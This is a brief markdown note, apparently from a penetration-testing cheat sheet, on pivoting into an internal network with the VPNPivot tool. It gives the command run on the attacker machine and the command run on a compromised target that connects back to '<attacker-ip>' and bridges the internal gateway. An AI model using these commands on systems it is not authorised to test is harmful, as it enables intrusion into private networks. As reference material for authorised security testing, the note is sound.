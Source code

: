 # Pivoting
---

## VPNPivot

#### On attacker machine

`$ sudo pivots -i <iface> -p <port> -H <mac> -v`

* __iface__ - is the virtual interface for the vpn itself, as example openvpn often creates tap0 or tun0, you can choose whaterver you want, like pwn0;
* __mac__ - MAC address for the newly created device;
* __port__ - whatever unused port you want


#### On target machine

`$ sudo pivotc <attacker-ip> <previously defined port> <internal network gateway ip>`
